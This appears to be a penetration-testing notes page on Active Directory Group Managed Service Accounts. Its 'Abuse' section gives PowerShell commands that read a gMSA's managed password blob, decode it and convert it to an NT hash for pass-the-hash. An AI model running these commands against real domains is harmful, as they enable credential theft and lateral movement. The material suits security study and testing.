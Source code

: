 # gMSA

## Theory

Group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service account across multiple servers.\
It protects against Kerberoast attack type by generating a random 256 bytes password and rotating it every 30 days.

To read the password you need the <mark style="color:purple;">**msds-ManagedPassword**</mark> permission

## Enumeration

To enumerate gMSAs, we can use the ADModule

```powershell
Get-ADServiceAccount -Filter *
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(11).png" alt=""><figcaption></figcaption></figure>

Enumerate the Principals that can read the password blob:

{% code overflow="wrap" %}
```powershell
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(12).png" alt=""><figcaption></figcaption></figure>

## Abuse

### Read current password

{% hint style="info" %}
You need a principal that can read the blob
{% endhint %}

Use [ADmodule ](https://github.com/samratashok/ADModule)and [DSInternal](https://github.com/MichaelGrafnetter/DSInternals)

{% code overflow="wrap" %}
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity <$User> -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
```
{% endcode %}

```powershell
ConvertTo-NTHash -password $decodedpwd.SecureCurrentPassword
```

<figure><img src="../../../../.gitbook/assets/immagine (13).png" alt=""><figcaption></figcaption></figure>

Now you can [pass the hash](../../lateral-movement/pass-the/pass-the-hash.md)

## References

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

